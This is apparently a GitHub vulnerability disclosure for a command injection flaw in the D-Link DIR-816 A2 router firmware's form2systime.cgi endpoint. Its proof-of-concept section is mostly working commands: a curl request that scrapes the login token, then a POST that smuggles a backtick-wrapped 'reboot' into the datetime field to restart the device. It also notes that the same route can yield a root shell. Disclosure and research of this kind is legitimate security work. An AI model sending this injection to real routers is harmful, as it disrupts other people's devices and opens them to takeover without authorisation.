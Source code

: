 
# D-link DIR-816 A2_v1.10CNB04.img Command injection vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/form2systime_cgi/img/vuln1.png)

In /goform/form2systime.cgi, the Command injection vulnerability only needs to be met by datetime -:

## Poc

First you need to get the tokenid

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Next, run the following poc, you can see that the router is restarted

```python
curl -i -X POST http://192.168.0.1/goform/form2systime.cgi -d tokenid=xxxxx -d 'datetime=`reboot`-:'
```

Finally, exp can be written to achieve the effect of obtaining a root shell
